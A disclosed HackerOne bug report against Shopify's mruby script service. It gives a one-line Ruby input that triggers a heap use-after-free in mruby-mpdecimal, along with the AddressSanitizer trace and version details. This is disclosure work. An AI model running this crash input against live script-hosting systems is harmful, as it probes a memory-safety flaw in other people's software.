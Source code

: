 # Use after free in mruby-mpdecimal

## Report Details
- **Report ID**: 244904
- **URL**: https://hackerone.com/reports/244904
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-06-30T23:18:43.925Z
- **Disclosed**: 2017-07-06T20:23:22.342Z

## Reporter
- **Username**: haquaman
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Running the following ruby script in mruby compiled with ASAN enabled causes a use after free error:

```
x=inspect.to_d-0
```

Output of mruby with ASAN:

```
$ ./ext/enterprise_script_service/mruby/bin/mruby crash.rb
trace:
	[0] crash.rb:1
	[1] /root/ess/ext/enterprise_script_service/mruby-mpdecimal/mrblib/mpdecimal.rb:21:in to_d
/root/ess/ext/enterprise_script_service/mruby-mpdecimal/mrblib/mpdecimal.rb:21:can't convert "main" into Decimal (ArgumentError)
=================================================================
==8219==ERROR: AddressSanitizer: heap-use-after-free on address 0x60800000b9f0 at pc 0x00000073de47 bp 0x7ffc2a5efa90 sp 0x7ffc2a5efa88
READ of size 8 at 0x60800000b9f0 thread T0
    #0 0x73de46 in mpd_free /root/ess/ext/enterprise_script_service/mruby-mpdecimal/src/memory.c:139:5
    #1 0x6e0c15 in mpd_del /root/ess/ext/enterprise_script_service/mruby-mpdecimal/src/mpdecimal.c:459:9
    #2 0x6ddb62 in decimal_free /root/ess/ext/enterprise_script_service/mruby-mpdecimal/src/ext.c:28:3
    #3 0x536973 in obj_free /root/ess/ext/enterprise_script_service/mruby/src/gc.c:823:9
    #4 0x537055 in free_heap /root/ess/ext/enterprise_script_service/mruby/src/gc.c:388:9
    #5 0x537055 in mrb_gc_destroy /root/ess/ext/enterprise_script_service/mruby/src/gc.c:397
    #6 0x531d3d in mrb_close /root/ess/ext/enterprise_script_service/mruby/src/state.c:252:3
    #7 0x4e6c39 in cleanup /root/ess/ext/enterprise_script_service/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:165:3
    #8 0x4e6c39 in main /root/ess/ext/enterprise_script_service/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:257
    #9 0x7f2e96bdaf44 in __libc_start_main /build/eglibc-SvCtMH/eglibc-2.19/csu/libc-start.c:287
    #10 0x43f336 in _start (/root/ess/ext/enterprise_script_service/mruby/bin/mruby+0x43f336)

0x60800000b9f0 is located 80 bytes inside of 96-byte region [0x60800000b9a0,0x60800000ba00)
freed by thread T0 here:
    #0 0x4c6012 in free (/root/ess/ext/enterprise_script_service/mruby/bin/mruby+0x4c6012)
    #1 0x52fdd0 in mrb_default_allocf /root/ess/ext/enterprise_script_service/mruby/src/state.c:56:5

previously allocated by thread T0 here:
    #0 0x4c6635 in realloc (/root/ess/ext/enterprise_script_service/mruby/bin/mruby+0x4c6635)
    #1 0x52fdad in mrb_default_allocf /root/ess/ext/enterprise_script_service/mruby/src/state.c:60:12

SUMMARY: AddressSanitizer: heap-use-after-free /root/ess/ext/enterprise_script_service/mruby-mpdecimal/src/memory.c:139 mpd_free
Shadow bytes around the buggy address:
  0x0c107fff96e0: fa fa fa fa fd fd fd fd fd fd fd fd fd fd fd fd
  0x0c107fff96f0: fa fa fa fa fd fd fd fd fd fd fd fd fd fd fd fa
  0x0c107fff9700: fa fa fa fa fd fd fd fd fd fd fd fd fd fd fd fa
  0x0c107fff9710: fa fa fa fa fd fd fd fd fd fd fd fd fd fd fd fd
  0x0c107fff9720: fa fa fa fa fd fd fd fd fd fd fd fd fd fd fd fd
=>0x0c107fff9730: fa fa fa fa fd fd fd fd fd fd fd fd fd fd[fd]fd
  0x0c107fff9740: fa fa fa fa fd fd fd fd fd fd fd fd fd fd fd fa
  0x0c107fff9750: fa fa fa fa fd fd fd fd fd fd fd fd fd fd fd fa
  0x0c107fff9760: fa fa fa fa fd fd fd fd fd fd fd fd fd fd fd fa
  0x0c107fff9770: fa fa fa fa fd fd fd fd fd fd fd fd fd fd fd fa
  0x0c107fff9780: fa fa fa fa fd fd fd fd fd fd fd fd fd fd fd fd
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Heap right redzone:      fb
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack partial redzone:   f4
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==8219==ABORTING
```

The version of mruby is:

```
 39779b339e12c81d2fd9dcc5d0a9c40bed965430 ext/enterprise_script_service/mruby (1.0.0-4080-g39779b3)
 ```

This is from the following commit in ess:

```
29ccd3691d8feabd37fe8872bd8d5c4e198531cf
```

I'll work on a patch this weekend hopefully.

## Attachments
No attachments
